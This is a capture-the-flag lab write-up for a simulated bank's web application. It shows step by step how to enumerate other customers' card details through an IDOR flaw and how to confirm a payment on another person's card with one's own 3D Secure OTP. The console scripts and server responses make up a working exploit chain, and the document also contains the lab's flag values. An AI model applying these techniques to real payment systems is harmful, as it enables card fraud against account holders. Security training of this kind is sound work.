

# Task 3. Bypassing 3D Secure Verification for Unauthorized Payment


## **Task Description**


In this culminating interactive challenge within the **CyberBank simulation**,\
you're tasked with executing a payment transaction using another account holder's details while cleverly diverting the **3D Secure verification** to your account.\
This advanced task simulates an attack vector targeting the payment authorization process, specifically the 3D Secure verification mechanism designed to add an extra layer of security for online credit and debit card transactions.\
This tasks sound crazy I know, just take your time with a deep breath.\
To understand the logic behind the payment flow, try a **normal payment** with your account information.

- Target Application: [CyberBank](https://intranet-dlh.hbtn.io/rltoken/1VVyFaPHhuT-TXMLbTuhhg)
- Payment Endpoint: `http://web0x06.hbtn/upgrade`
- OTP Confirmation Endpoint `http://web0x06.hbtn/confirmation`

---

Useful instructions:
1. Initiate a payment transaction on the `/upgrade` page using the account details of another holder but ensure the transaction amount is within legitimate bounds to avoid immediate flags by fraud detection systems.
2. When redirected to the 3D Secure verification page (`/cards/3dsecure/`), carefully observe the request made when submitting the OTP (One-Time Password).
3. Intercept and modify this OTP submission request in a way that the verification appears to be from your account, but ensure the charge is still made to the other account holder's account.
4. Consider manipulating parameters within the request, such as session identifiers or account numbers, to redirect the verification process successfully.
5. Achieving successful verification under these altered conditions will trigger a transaction completion message along with a unique `Flag` as evidence of exploiting the 3D Secure process.

Remember:
- This simulation is designed to enhance your understanding of financial web application vulnerabilities and should only be applied in ethical, authorized testing environments.

**Repo:**

- GitHub repository: `dlh-cyber_security`
- Directory: `web_application_security/0x06_idor`
- File: `3-flag.txt`


## **Solution**


- Start sandbox `cyber_websec_0x06`.
- Start openvpn.
- Put IP address of the sandbox in `/etc/hosts` file.
```bash
echo "10.42.63.4 web0x06.hbtn" | sudo tee -a /etc/hosts
```


## Task 3: Bypassing 3D Secure Verification


This challenge involves two distinct security mechanisms:

1. Payment authorization: Which account or card gets charged?
2. 3D Secure authentication: Which account holder must provide the OTP to authorize the payment?

The vulnerability we're investigating is whether CyberBank improperly allows these two identities to become disconnected.

Our objective is to complete the lab's simulated payment using another customer's card while authenticating through Yosri's 3D Secure flow, then retrieve `flag_3`.

### Step 1: Inspect the legitimate payment flow


Open this URL in your authenticated Firefox browser:

```
http://web0x06.hbtn/upgrade
```




1. We have one GET request to `/api/customer/info/me` answered with:

```json
{
    "flag_2": "d228761de7345891bb76e633489ab413",
    "message": {
        "accounts_id": ["97ccfda8da2e4b2fa4133121fad8a9f2", "a1e9e267bb9649148d3edbc1233c0c47"],
        "created_at": 1794147533,
        "expenses": 103938.40000000001,
        "firstname": "Yosri",
        "id": "2cc5e440302342fbae9d2e1d4a226d61",
        "income": 90946.1,
        "lastname": "Musk",
        "total_balance": 12992.300000000001,
        "updated_at": 1794147533,
        "username": "yosri"
    },
    "status": "success"
}
```

2. followed by a POST request to `/api/accounts/info` for the two accounts `{"accounts_id":["97ccfda8da2e4b2fa4133121fad8a9f2","a1e9e267bb9649148d3edbc1233c0c47"]}` answered with:

```json
{
    "message": [{
        "balance": 2240.1,
        "cards_id": ["defd561446064e4392de6550ce2db7aa", "d16f4618e86b493190c1440fd953bb08"],
        "created_at": 1794147534,
        "customer_id": "2cc5e440302342fbae9d2e1d4a226d61",
        "id": "a1e9e267bb9649148d3edbc1233c0c47",
        "number": "107964423939",
        "routing": "106190008",
        "updated_at": 1794147546
    }, {
        "balance": 10752.2,
        "cards_id": ["6622b9b5976a43d689b1243c95b1493a"],
        "created_at": 1794147533,
        "customer_id": "2cc5e440302342fbae9d2e1d4a226d61",
        "id": "97ccfda8da2e4b2fa4133121fad8a9f2",
        "number": "101431551032",
        "routing": "106190006",
        "updated_at": 1794172676
    }],
    "status": "success"
}
```

3. followed by another POST reqeust to `/api/cards/info` for the three cards `{"cards_id":["defd561446064e4392de6550ce2db7aa","d16f4618e86b493190c1440fd953bb08","6622b9b5976a43d689b1243c95b1493a"]}` answered with:

```json
{
    "message": [{
        "account": {
            "number": "101431551032",
            "routing": "106190006"
        },
        "account_id": "97ccfda8da2e4b2fa4133121fad8a9f2",
        "created_at": 1794147533,
        "customer_id": "2cc5e440302342fbae9d2e1d4a226d61",
        "cvv": "303",
        "e_month": "04",
        "e_year": "2026",
        "firstname": "Yosri",
        "id": "6622b9b5976a43d689b1243c95b1493a",
        "lastname": "Musk",
        "limit": 5467.0,
        "number": "4000619000021564",
        "otp": "*****",
        "state": "declined",
        "updated_at": 1794147533,
        "username": "yosri"
    }, {
        "account": {
            "number": "107964423939",
            "routing": "106190008"
        },
        "account_id": "a1e9e267bb9649148d3edbc1233c0c47",
        "created_at": 1794147534,
        "customer_id": "2cc5e440302342fbae9d2e1d4a226d61",
        "cvv": "208",
        "e_month": "06",
        "e_year": "2026",
        "firstname": "Yosri",
        "id": "defd561446064e4392de6550ce2db7aa",
        "lastname": "Musk",
        "limit": 447.0,
        "number": "4000619000065699",
        "otp": "*****",
        "state": "declined",
        "updated_at": 1794147534,
        "username": "yosri"
    }, {
        "account": {
            "number": "107964423939",
            "routing": "106190008"
        },
        "account_id": "a1e9e267bb9649148d3edbc1233c0c47",
        "created_at": 1794147534,
        "customer_id": "2cc5e440302342fbae9d2e1d4a226d61",
        "cvv": "203",
        "e_month": "04",
        "e_year": "2026",
        "firstname": "Yosri",
        "id": "d16f4618e86b493190c1440fd953bb08",
        "lastname": "Musk",
        "limit": 5500.0,
        "number": "4000619000079725",
        "otp": "*****",
        "state": "declined",
        "updated_at": 1794147534,
        "username": "yosri"
    }],
    "status": "success"
}
```


## Step 2: Initiate a legitimate payment using Yosri's card

The `/upgrade` page reveals several useful details:

- Payment amount: $9.99
- Selected card: Visa ending in `1564`
- Payment method: Existing card or new card
- Billing information: First name, last name, ZIP code
- Action: Upgrade My Plan

The existing card appears to belong to Yosri Musk, our authenticated user.

Our goal now is to understand how the payment transaction is created and how CyberBank initiates 3D Secure verification.

### Action

Initiate a normal payment using Yosri's existing card.

1. Open Firefox Developer Tools (`F12`) → Network.
2. Enable Persist Logs so requests remain visible after navigation.
3. Select Fetch/XHR.
4. Fill in the billing details:
   - First name: `Yosri`
   - Last name: `Musk`
   - ZIP code: Use `11111`.
5. Select the card ending in `5699`
6. Click Upgrade My Plan.

Stop when you reach the 3D Secure verification page. Don't submit an OTP yet.

### Why?

We want to capture the legitimate payment initiation request and examine:

- Which API endpoint creates the payment.
- How CyberBank identifies the card being charged.
- Whether the request contains a `card_id`, `account_id`, or `customer_id`.
- How the payment is linked to the subsequent 3D Secure challenge.


**Clicking the "Upgrade My Plan" button triggers**:

1. A POST request to `/api/cards/init_payment` with the following payload:

```json
{
    "firstname": "Yosri",
    "lastname": "Musk",
    "number": "4000619000065699",
    "e_month": "06",
    "e_year": "2026",
    "cvv": "208",
    "amount": 9.99
}
```
and getting a response with a transaction ID: `{"message":{"transaction_id":"02f537ac09454f798e6194ffd7e68f5f"},"status":"success"}`

2. A subsequent GET request to `/api/cards/3dsecure/defd561446064e4392de6550ce2db7aa` answered with:

```json
{
    "message": {
        "OTP": "13068",
        "cvv": "208"
    },
    "status": "success"
}
```


## Step 3: Analyze the payment initiation and 3D Secure flow

We now have the actual payment endpoints rather than having to guess them.

### What we discovered

1. Payment initialization

`POST /api/cards/init_payment`

- Card: Yosri's card ending in `5699`
- Amount: $9.99
- Response: `status: success`
- Transaction ID: `02f537ac09454f798e6194ffd7e68f5f`

2. 3D Secure challenge

`GET /api/cards/3dsecure/defd561446064e4392de6550ce2db7aa`

The backend returned:

```json
{
  "message": {
    "OTP": "13068",
    "cvv": "208"
  },
  "status": "success"
}
```

### Important observation

The payment initialization response identifies the transaction, but the 3D Secure request identifies the card.

These are two distinct objects:

- `transaction_id`: Identifies the pending payment.
- `card_id`: Identifies the card whose OTP is requested.

This separation is potentially important for the challenge. We need to determine whether the final confirmation correctly binds the OTP, card, and transaction together.

However, we haven't captured the OTP submission endpoint yet.

### Step 4: Complete the normal 3D Secure confirmation

**Action**:

On the current 3D Secure confirmation page:

1. Keep Firefox Developer Tools → Network open with Persist Logs enabled.
2. Enter the OTP returned by the application: `13068` (assuming the challenge hasn't changed).
3. Click the confirmation button.
4. Inspect the new request generated by that action.

Why?

We need the exact HTTP request used for OTP verification, especially how it identifies the payment and the authenticating card.

We need these things from the confirmation request:

- Request URL and HTTP method.
- Request body (JSON or form data).
- Complete response body.

**After submitting the OTP**

1. There is a POST request to `/api/cards/confirm_payment/02f537ac09454f798e6194ffd7e68f5f` with payload:

```json
{
    "otp": "13068",
    "number": "4000619000065699"
}
```
answered with no response body, but header is 200 OK.

2. We have a GET request to `/api/customer/transactions` answered with:

```json
{
    "message": [{
        "amount": 33,
        "created_at": 1794147533,
        "id": "1cbee46bcffe4e01a0c6e5d48d134db8",
        "merchant_name": "HolbertonSchool.",
        "method": "card",
        "raison": "Scholar Fees",
        "receiver_id": null,
        "receiver_payment_id": null,
        "sender_id": "2cc5e440302342fbae9d2e1d4a226d61",
        "sender_payment_id": "6622b9b5976a43d689b1243c95b1493a",
        "status": "pending",
        "updated_at": 1794147533
    },

. . .

	{
        "amount": 9.99,
        "created_at": 1794176250,
        "id": "02f537ac09454f798e6194ffd7e68f5f",
        "merchant_name": "DexterShield ltd",
        "method": "card",
        "raison": "CyberBank Upgrade",
        "receiver_id": null,
        "receiver_payment_id": null,
        "sender_id": "2cc5e440302342fbae9d2e1d4a226d61",
        "sender_payment_id": "defd561446064e4392de6550ce2db7aa",
        "status": "confirmed",
        "updated_at": 1794179166
    }],
    "status": "success"
}
```

3. Another GET request to `/api/customer/info/me` answered with:

```json
{
    "flag_2": "d228761de7345891bb76e633489ab413",
    "message": {
        "accounts_id": ["97ccfda8da2e4b2fa4133121fad8a9f2", "a1e9e267bb9649148d3edbc1233c0c47"],
        "created_at": 1794147533,
        "expenses": 103858.48000000001,
        "firstname": "Yosri",
        "id": "2cc5e440302342fbae9d2e1d4a226d61",
        "income": 90876.17000000001,
        "lastname": "Musk",
        "total_balance": 12982.310000000001,
        "updated_at": 1794147533,
        "username": "yosri"
    },
    "status": "success"
}
```

4. A POST reqeust to `/api/accounts/info`
5. A POST request to `/api/cards/info`
6. A GET request to `/api/customer/contacts`


## Step 5: Retrieve another customer's card details

We captured the complete legitimate payment flow, and the OTP confirmation request reveals a promising attack surface.

### What we've learned

| Stage                | Endpoint                                           | Key identifier                   |
| -------------------- | -------------------------------------------------- | -------------------------------- |
| Payment creation     | `POST /api/cards/init_payment`                     | Card number                      |
| OTP retrieval        | `GET /api/cards/3dsecure/{card_id}`                | Card ID                          |
| Payment confirmation | `POST /api/cards/confirm_payment/{transaction_id}` | Transaction ID, OTP, card number |

The critical observation is that the final confirmation accepts a card number in the JSON body, even though the transaction was already created using a particular card.

This suggests a possible authorization flaw: the backend might verify the OTP against the card number supplied during confirmation, rather than the card originally associated with the transaction.

This is still a hypothesis. We need to test whether those identifiers are securely bound.

### Action

Let's retrieve Linda Robinson's card details using the IDOR vulnerability established in previous tasks.

We already discovered Linda's card ID:

```
969ee5b6aaf6409e957db1feb017eb0b
```

On the CyberBank dashboard, open Firefox Developer Tools → Console and execute:

```js
(async () => {
  const response = await fetch("/api/cards/info", {
    method: "POST",
    credentials: "include",
    headers: {
      "Content-Type": "application/json"
    },
    body: JSON.stringify({
      cards_id: [
        "969ee5b6aaf6409e957db1feb017eb0b"
      ]
    })
  });

  console.log("HTTP status:", response.status);
  console.log(
    "Response:",
    JSON.stringify(await response.json(), null, 2)
  );
})();
```

### Why?

We're investigating whether the same missing object-level authorization checks also affect card records.

This should help us establish whether Linda's card can be used for the lab's payment initiation, and which card identifiers the backend associates with her account.

Console output:

```json
Response: {
    "message": [{
        "account": {
            "number": "103418140975",
            "routing": "106190007"
        },
        "account_id": "b2ce18af65704387924b9d286c5af593",
        "created_at": 1794147520,
        "customer_id": "d8214d82375d48c0b302cc2b30068244",
        "cvv": "165",
        "e_month": "07",
        "e_year": "2026",
        "firstname": "Linda",
        "id": "969ee5b6aaf6409e957db1feb017eb0b",
        "lastname": "Robinson",
        "limit": 1924,
        "number": "4000619000098947",
        "otp": "*****",
        "state": "declined",
        "updated_at": 1794147520,
        "username": "linda.robinson"
    }],
    "status": "success"
}
```


## Step 6: Initiate a payment using Linda's card

We've successfully retrieved Linda Robinson's card information through the IDOR vulnerability.

Card information retrieved

### What we know

| Field        | Value                              |
| ------------ | ---------------------------------- |
| Card holder  | Linda Robinson                     |
| Card number  | `4000619000098947`                 |
| Card ID      | `969ee5b6aaf6409e957db1feb017eb0b` |
| Expiration   | `07/2026`                          |
| CVV          | `165`                              |
| Card limit   | $1,924                             |
| Test payment | $9.99                              |

The card's reported state is `declined`, but Yosri's card had the same state and still allowed payment initialization. We'll let the backend response determine whether Linda's card can be used.

### Our hypothesis

The potential vulnerability lies in the separation between two operations:

1. Payment initialization: Creates a transaction associated with Linda's card.
2. 3D Secure confirmation: Might accept an OTP associated with Yosri's card if we modify the `number` parameter.

If the backend doesn't bind the authenticated card to the original payment transaction, it may authorize Linda's charge using Yosri's OTP.

### Action

In Firefox Developer Tools → Console, while authenticated as Yosri, execute:

```js
(async () => {
  const response = await fetch("/api/cards/init_payment", {
    method: "POST",
    credentials: "include",
    headers: {
      "Content-Type": "application/json"
    },
    body: JSON.stringify({
      firstname: "Linda",
      lastname: "Robinson",
      number: "4000619000098947",
      e_month: "07",
      e_year: "2026",
      cvv: "165",
      amount: 9.99
    })
  });

  console.log("HTTP status:", response.status);
  console.log(
    "Payment initialization:",
    JSON.stringify(await response.json(), null, 2)
  );
})();
```

### Why?

We're reproducing the legitimate payment initialization request but replacing Yosri's card details with Linda's.

If successful, the backend should return a new `transaction_id` associated with Linda's card.

We will then investigate whether the confirmation endpoint allows that transaction to be verified using Yosri's card number and OTP.


Console output: `500 Internal Server Error`


## Step 7: Diagnose the payment initialization failure

The result is interesting:

```
POST /api/cards/init_payment
HTTP 500 Internal Server Error

SyntaxError: JSON.parse: unexpected character
```

This tells us two things:

1. The backend encountered an internal error. It did not return the normal JSON response containing a `transaction_id`.
2. The JavaScript error is secondary. Our script called `response.json()`, but the server apparently returned something other than valid JSON, possibly an HTML error page.

We cannot yet conclude that Linda's card was rejected.

One detail worth noting: Linda's card expires in `07/2026`, which is before the current date. However, Yosri's previously successful payment used a card expiring in `06/2026`, so expiration alone does not explain the difference.

### Action

In Firefox Developer Tools:

1. Open Network.
2. Find the failed `POST /api/cards/init_payment` request with status `500`.
3. Click it.
4. Select Response.

```html
<!doctype html>
<html lang=en>
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
```

## Step 8: Check whether the failed payment created a transaction

The response is Flask's generic `500 Internal Server Error` page. It contains no application-specific explanation.

We know that:

- The same endpoint successfully initialized a payment using Yosri's card.
- Linda's card details were retrieved successfully.
- The $9.99 payment using Linda's card produced an internal server error.
- We don't yet know whether a transaction was created before that error occurred.

The key question: Did CyberBank create a payment record despite returning HTTP 500?

### Action

Execute this in Firefox's Console:

```js
(async () => {
  const response = await fetch("/api/customer/transactions", {
    credentials: "include"
  });

  const data = await response.json();

  const payments = data.message
    .filter(t =>
      t.method === "card" &&
      t.raison === "CyberBank Upgrade"
    )
    .sort((a, b) => b.created_at - a.created_at);

  console.log("HTTP status:", response.status);
  console.log("Upgrade transactions:", payments.length);
  console.table(payments.map(t => ({
    id: t.id,
    amount: t.amount,
    status: t.status,
    sender_id: t.sender_id,
    card_id: t.sender_payment_id,
    created_at: t.created_at
  })));
})();
```

### Why?

A `500` doesn't guarantee that the database transaction was rolled back.

This read-only request lets us check whether any new payment was recorded under Yosri's transaction history.

We're specifically looking for a payment associated with Linda's card ID:

```
969ee5b6aaf6409e957db1feb017eb0b
```

Console output:


| (index) | id | amount | status | sender_id | card_id | created_at |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 0 | 02f537ac09454f798e6194ffd7e68f5f | 9.99 | confirmed | 2cc5e440302342fbae9d2e1d4a226d61 | defd561446064e4392de6550ce2db7aa | 1794176250 |


## Step 9: Identify a viable card for the 3D Secure test

The results confirm that Linda's failed payment initialization did not create a transaction in Yosri's visible transaction history.

The only recorded upgrade payment is Yosri's original $9.99 transaction, which was successfully confirmed.

We therefore have two separate findings:

- The legitimate payment and OTP confirmation flow works.
- Initializing a payment with Linda's card returns HTTP 500, but we don't yet know why.

Rather than repeat the same failing request, let's check whether another customer has a card with different characteristics.

### Action

Run this in the Firefox Console:

```js
(async () => {
  const post = async (url, body) =>
    (await fetch(url, {
      method: "POST",
      credentials: "include",
      headers: {"Content-Type": "application/json"},
      body: JSON.stringify(body)
    })).json();

  const contacts = await (
    await fetch("/api/customer/contacts", {
      credentials: "include"
    })
  ).json();

  const accountIds = contacts.message.flatMap(c =>
    c.accounts.map(a => a.account_id)
  );

  const accounts = await post("/api/accounts/info", {
    accounts_id: accountIds
  });

  const cardIds = [...new Set(
    accounts.message.flatMap(a => a.cards_id || [])
  )];

  const cards = await post("/api/cards/info", {
    cards_id: cardIds
  });

  console.log("Cards discovered:", cards.message.length);

  console.table(cards.message.map(c => ({
    holder: `${c.firstname} ${c.lastname}`,
    card_id: c.id,
    last4: c.number.slice(-4),
    expiration: `${c.e_month}/${c.e_year}`,
    state: c.state,
    limit: c.limit
  })));
})();
```

### Why?

We want to compare Linda's card against other cards in the lab, particularly their expiration dates, transaction limits, and states.

Console output:


| (index) | holder | card_id | last4 | expiration | state | limit |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 0 | Linda Robinson | 969ee5b6aaf6409e957db1feb017eb0b | 8947 | 07/2026 | declined | 1924 |
| 1 | Robert Martinez | c8464bcb8aee4fe99e39b6bd73461b5e | 2606 | 05/2025 | declined | 925 |
| 2 | Robert Martinez | 112ebe2b39aa4a3e8ca79a3ccfa7f489 | 8691 | 04/2026 | declined | 5415 |
| 3 | Robert Martinez | ddc05a3a3d3f48f9a6224fb40e59d78f | 7852 | 02/2028 | valid | 5500 |
| 4 | Linda Robinson | 5a6e879b94624aebb595841e6a3c0657 | 9857 | 01/2026 | valid | 5430 |
| 5 | Linda Robinson | 0267d0efb1b4406cab796329b966b9a3 | 3721 | 09/2026 | valid | 1000 |
| 6 | James Thompson | 0cc3c952312f4e688fa6e0bcc04e0048 | 0390 | 01/2028 | declined | 429 |
| 7 | James Thompson | e93304b2484849828032f7609f6dc5d2 | 9478 | 04/2027 | declined | 439 |
| 8 | James Thompson | ef327cafae9045749b5b1855b6d3d7cc | 3759 | 03/2028 | declined | 2000 |
| 9 | Patricia Garcia | 98f1ddf746e74a2e840fc903fa472a82 | 0916 | 12/2025 | declined | 5418 |
| 10 | Patricia Garcia | 0ff34821201744dda092342b89e77aca | 3548 | 08/2028 | valid | 923 |
| 11 | Patricia Garcia | 4fa7481e3a5b435285d7411d3c91b168 | 3117 | 12/2026 | declined | 2000 |
| 12 | Elizabeth Martin | a71622960819414d85ce408c60d00bf1 | 5695 | 10/2026 | valid | 5434 |
| 13 | Elizabeth Martin | c54458a9c7614ab790ad39a6e22170a3 | 9433 | 03/2025 | declined | 1927 |
| 14 | Elizabeth Martin | 4d45e53c795f4e6b8501fc4a9eee0c1c | 1447 | 01/2026 | valid | 1000 |
| 15 | Brian Harris | 51e49c9a6c504f10893f64b5bae308c6 | 1310 | 05/2027 | valid | 1972 |
| 16 | Brian Harris | ff8d7a5a921840a698af6fa56135a89a | 1488 | 10/2026 | declined | 931 |
| 17 | Brian Harris | 76b974e255244ae5a9950d767a8500fe | 6237 | 09/2027 | declined | 5500 |
| 18 | Megan White | 110c01097ec443e8bf42aeab48b9f371 | 9601 | 10/2026 | valid | 963 |
| 19 | Megan White | 3682ee9b435847fd8469c31b63ddc695 | 1943 | 10/2028 | valid | 412 |
| 20 | Megan White | 082f450c97914a0aab70713c052a726a | 4339 | 10/2025 | declined | 5500 |
| 21 | Mark Jackson | 57545c0d73224b4688af1b2d804b2240 | 8953 | 12/2028 | valid | 469 |
| 22 | Mark Jackson | ec4dfa3ea96d431f96707e1590df141e | 8891 | 03/2026 | declined | 947 |
| 23 | Mark Jackson | 99e953484e2644fca6646e6456bba3d0 | 9389 | 12/2027 | declined | 2000 |
| 24 | Ashley Thomas | e08864cd140249f3a88c2c35e67c1686 | 4721 | 05/2027 | declined | 967 |
| 25 | David Anderson | 4e01d2204af14183a1eb6026e3e15c01 | 2316 | 11/2027 | valid | 1956 |
| 26 | David Anderson | 2ce866bd20fa427e843ec7a3aebc507b | 1577 | 02/2025 | valid | 445 |
| 27 | David Anderson | 3ae8ace573674656bb790b7cd259dbae | 6918 | 07/2028 | valid | 500 |
| 28 | Ashley Thomas | 7032a80cd2cb4ac88341f61835f160f6 | 4323 | 03/2028 | valid | 5422 |
| 29 | Ashley Thomas | 185d56c9e4b14111845197d861276aff | 7260 | 01/2026 | valid | 2000 |


## Step 10: Select a valid, non-expired card for payment testing

The results reveal a useful distinction among the 30 cards.

Linda's first card, which produced HTTP 500, has:

- State: `declined`
- Expiration: `07/2026`
- Limit: $1,924

Since we're in November 2026, that card is expired. However, Yosri's earlier payment succeeded with an expired, declined card, so we cannot conclude which condition caused the error.

For our next test, let's eliminate both variables.

### Selected test card: Robert Martinez

| Field            | Value                              |
| ---------------- | ---------------------------------- |
| Card ID          | `ddc05a3a3d3f48f9a6224fb40e59d78f` |
| Last four digits | `7852`                             |
| Expiration       | `02/2028`                          |
| State            | `valid`                            |
| Limit            | $5,500                             |
| Intended payment | $9.99                              |

### Action

Retrieve Robert's complete card details using the already confirmed `/api/cards/info` endpoint.

Execute in Firefox Console:

```js
(async () => {
  const response = await fetch("/api/cards/info", {
    method: "POST",
    credentials: "include",
    headers: {
      "Content-Type": "application/json"
    },
    body: JSON.stringify({
      cards_id: [
        "ddc05a3a3d3f48f9a6224fb40e59d78f"
      ]
    })
  });

  const data = await response.json();

  console.log(
    "HTTP status:", response.status,
    "\nCard:", JSON.stringify(data.message?.[0], null, 2)
  );
})();
```

### Why?

Our strategy is to test payment initialization with a card that is both valid and unexpired.

If it succeeds, we can investigate the central 3D Secure vulnerability:

Can a transaction charged to Robert's card be confirmed using an OTP associated with Yosri's card?

The final confirmation endpoint accepts both a transaction ID and a card number, making that binding particularly interesting.

Console output:

```json
HTTP status: 200
Card: {
  "account": {
    "number": "101734343268",
    "routing": "106190006"
  },
  "account_id": "5ef0100f10074e33bfb609ad455098a0",
  "created_at": 1794147521,
  "customer_id": "31a6d09366e64c7383ef9c6d32ec5c8d",
  "cvv": "970",
  "e_month": "02",
  "e_year": "2028",
  "firstname": "Robert",
  "id": "ddc05a3a3d3f48f9a6224fb40e59d78f",
  "lastname": "Martinez",
  "limit": 5500,
  "number": "4000619000067852",
  "otp": "*****",
  "state": "valid",
  "updated_at": 1794147521,
  "username": "robert.martinez"
}
```


## Step 11: Initialize a payment using Robert's card

We've confirmed that Robert Martinez's card has the following characteristics:

| Field          | Value              |
| -------------- | ------------------ |
| Card number    | `4000619000067852` |
| Expiration     | `02/2028`          |
| Card state     | `valid`            |
| Card limit     | $5,500             |
| Payment amount | $9.99              |

Unlike Linda's previously tested card, Robert's card is both valid and unexpired.

### Action

Execute this in the Firefox Console while authenticated as Yosri:

```js
(async () => {
  const response = await fetch("/api/cards/init_payment", {
    method: "POST",
    credentials: "include",
    headers: {
      "Content-Type": "application/json"
    },
    body: JSON.stringify({
      firstname: "Robert",
      lastname: "Martinez",
      number: "4000619000067852",
      e_month: "02",
      e_year: "2028",
      cvv: "970",
      amount: 9.99
    })
  });

  console.log("HTTP status:", response.status);
  console.log("Response:", await response.text());
})();
```

### Why?

We're testing whether CyberBank allows Yosri's authenticated session to initialize a payment using Robert's card.

We already established that a legitimate payment returns:

```json
{
  "message": {
    "transaction_id": "..."
  },
  "status": "success"
}
```

If this request succeeds, we'll have a pending transaction associated with Robert's card.

The next stage will be to investigate whether CyberBank improperly allows that transaction to be confirmed using Yosri's card number and OTP.

I've also changed the response handling to `response.text()` so that an HTML error page won't cause the JSON parsing exception we encountered earlier.


Console output:

```json
HTTP status: 200
Response: {
    "message": {
        "transaction_id": "8613168064854c7ba364686eece2ac5f"
    },
    "status": "success"
}
```


## Step 12: Retrieve Yosri's 3D Secure OTP

Payment initialized

We've successfully initialized a $9.99 payment using Robert Martinez's card while authenticated as Yosri Musk.


### Our current position

| Component                     | Identity                           |
| ----------------------------- | ---------------------------------- |
| Authenticated user            | Yosri Musk                         |
| Card being charged            | Robert Martinez, ending `7852`     |
| Payment amount                | $9.99                              |
| Transaction ID                | `8613168064854c7ba364686eece2ac5f` |
| 3D Secure verification target | Yosri Musk                         |

The transaction is initialized but not yet confirmed.

### Action

Retrieve the 3D Secure OTP associated with Yosri's card ending in `5699`.

Execute in the Firefox Console:

```js
(async () => {
  const response = await fetch(
    "/api/cards/3dsecure/defd561446064e4392de6550ce2db7aa",
    {
      method: "GET",
      credentials: "include"
    }
  );

  console.log("HTTP status:", response.status);
  console.log(
    "3D Secure response:",
    JSON.stringify(await response.json(), null, 2)
  );
})();
```

### Why?

Our legitimate payment test established that the confirmation endpoint accepts:

```
POST /api/cards/confirm_payment/{transaction_id}
```

With a JSON body containing:

```
{
  "otp": "...",
  "number": "..."
}
```

Our hypothesis: The backend might verify the OTP using the supplied card number without ensuring that this card matches the card associated with the original transaction.

We now have a transaction initialized against Robert's card. The next step is to obtain Yosri's OTP and investigate that association.

Console output:

```json
HTTP status: 200
3D Secure response: {
    "message": {
        "OTP": "42722",
        "cvv": "208"
    },
    "status": "success"
}
```


## Step 13: Test the 3D Secure authentication bypass

Yosri's OTP retrieved

We now have everything needed to test the central vulnerability in Task 3.

### The authentication mismatch

| Parameter          | Value                              |
| ------------------ | ---------------------------------- |
| Authenticated user | Yosri Musk                         |
| Card charged       | Robert Martinez, `...7852`         |
| Transaction ID     | `8613168064854c7ba364686eece2ac5f` |
| OTP source         | Yosri's card, `...5699`            |
| OTP                | `42722`                            |
| Payment amount     | $9.99                              |

Our hypothesis: CyberBank may validate the OTP against the card number supplied in the confirmation request, without checking that it matches the card originally charged.

### Action

Execute this in the Firefox Console:

```js
(async () => {
  const response = await fetch(
    "/api/cards/confirm_payment/8613168064854c7ba364686eece2ac5f",
    {
      method: "POST",
      credentials: "include",
      headers: {
        "Content-Type": "application/json"
      },
      body: JSON.stringify({
        otp: "42722",
        number: "4000619000065699"
      })
    }
  );

  console.log("HTTP status:", response.status);
  console.log("Confirmation response:", await response.text());
})();
```

### Why this is the critical test

We're deliberately combining identifiers from two different cardholders:

- The transaction ID belongs to the payment initialized using Robert's card.
- The OTP and card number belong to Yosri.

A correctly implemented 3D Secure confirmation should reject this mismatch.

If the request succeeds and Robert's transaction becomes `confirmed`, we've demonstrated a failure to bind payment authentication to the card being charged.

Console output:

```json
HTTP status: 200
Confirmation response: {
    "flag_3": "0a8ace62416351f61e0535ea2d7b6d72",
    "message": {
        "amount": 9.99,
        "created_at": 1794183840,
        "id": "8613168064854c7ba364686eece2ac5f",
        "merchant_name": "DexterShield ltd",
        "method": "card",
        "raison": "CyberBank Upgrade",
        "receiver_id": null,
        "receiver_payment_id": null,
        "sender_id": "31a6d09366e64c7383ef9c6d32ec5c8d",
        "sender_payment_id": "ddc05a3a3d3f48f9a6224fb40e59d78f",
        "status": "confirmed",
        "updated_at": 1794184433
    },
    "status": "success"
}
```

## Step 14: Save the Task 3 flag

3D Secure bypass confirmed!

We've successfully completed the exploitation objective.

The server returned:

```json
{
  "flag_3": "0a8ace62416351f61e0535ea2d7b6d72",
  "status": "success"
}
```

More importantly, the transaction was marked `confirmed`, despite using authentication credentials belonging to a different cardholder.

### What we demonstrated

| Component          | Identity                       |
| ------------------ | ------------------------------ |
| Authenticated user | Yosri Musk                     |
| Card charged       | Robert Martinez, ending `7852` |
| OTP used           | Yosri's card, ending `5699`    |
| Amount charged     | $9.99                          |
| Transaction status | `confirmed`                    |

The vulnerability is a 3D Secure authentication-binding failure. CyberBank allowed an OTP associated with Yosri's card to authorize a payment charged to Robert's card.

### Action


```bash
echo '0a8ace62416351f61e0535ea2d7b6d72' > 3-flag.txt
git add .
git commit -m "3-flag.txt"
git push
```

